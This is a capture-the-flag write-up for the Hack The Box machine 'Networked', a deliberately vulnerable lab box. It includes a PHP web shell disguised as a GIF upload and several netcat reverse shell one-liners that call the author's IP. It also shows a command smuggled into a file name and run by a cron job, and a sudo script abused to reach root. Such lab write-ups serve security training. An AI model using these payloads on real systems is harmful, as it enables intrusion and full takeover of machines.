# Netwroked

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/203"></a>
  <br>
</h1>
<h4 align="center"> Author: <a heref="https://www.hackthebox.eu/home/users/profile/8292" > guly</a></h4>

***

__Machine IP__: 10.10.10.146

__DATE__ : 21/09/2019

__START TIME__: 11:07 AM

***

## Nmap



I've got two open port and one closed port. Obviously we'll start our enumeration with HTTP service.

***

## HTTP

When we visit the IP in our browser we get a very simple web page with nothing fancy, just some text.



So I ran `gobuster` on the website and found few directories.



First I checked the `/backup` directory and it had a `.tar` file in there.



That file had 4 files named

* `lib.php`
* `index.php`
* `photos.php`
* `upload.php`

Now if we try to visit `/upload.php` on the website we get option to upload a file. I tried uploading a `phpbash` shell but got error about the `Invalid image file`.



This is means we need to upload our shell in an image file so I made a file name `shell.php.gif` having the following content.

```php
GIF89a;
<?php system($_GET['cmd']);?>
```

Then uploaded it. This file can be found on `/uploads` + `it is your IP address (with '.' replaced by '_') plus the extension`.

So my interface IP is `10.10.14.225` and the file I uploaded was `shell.php.gif` so my file will be found on `/uploads/10_10_14_225.php.gif`.



Now we have the RCE, using that we can get a shell:

```bash
➜ http http://10.10.10.146/uploads/10_10_14_225.php.gif\?cmd\="nc -e /bin/sh 10.10.14.225 4444"
```



I tried reading the user flag but got `permission denied`



***

## Horizontal privilege escalation

In `/home/guly` I found a php file named `check_attack.php`

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
```

The vulnerability that we are going to use here is in `exec("rm -f $logpath")`
Basically this `check_attack.php` is trying to remove the files in `/var/www/html/uploads` directory. So if we name file `hello.php;ls` it will run command as the user `guly`.

so I did

```bash
$ touch /"var/www/html/uploads/shell.php;nc -c bash 10.10.14.225 1337"
```
Then start the listener and wait because the `check_attack.php` is ran by a cronjob. After few minutes I got the shell as user `gully`



Now I can get the user hash.



***

## Lateral Privilege Escalation

I ran `sudo -l` to see if this user have some sudo rights or not.



We can see that `guly` can run `/usr/local/sbin/changename.sh` as root.

Following is the content of that file

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

Just run the script and focus on the out.



It asks for inputs like name, interface etc. The important thing is that it takes input. So we can try something like `;nc -c /bin/sh 10.10.14.225 4444`. But if we give that as input we'll get error saying `wrong input` cause there is regex in the source i.e `regexp="^[a-zA-Z0-9_\ /-]+$"` so we cannot use anything other then those chars.

To bypass this I made a file called `shell` with the following data in it:

```bash
$ echo "nc -e /bin/sh 10.10.14.225 4444" > shell
$ chmod +x shell
```



Then in place of `NAME` I ented `bash /home/guly/shell` and entered radnom things in other inputs and BOOM 💥💥💥



This gives us a `root reverse shell`.



Now we can grab the root flag.



***

This was really a fun machine. Nothing was supposed to be `guessed`. From the initial foothold to privilege escalation everything is sensible.

Thanks to [guly](https://twitter.com/theguly) for making this box. Also thanks to [@theart42](https://twitter.com/theart42) for helping me with user.

***

Thanks for reading, Feedback is always appreciated

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more "Writeups".
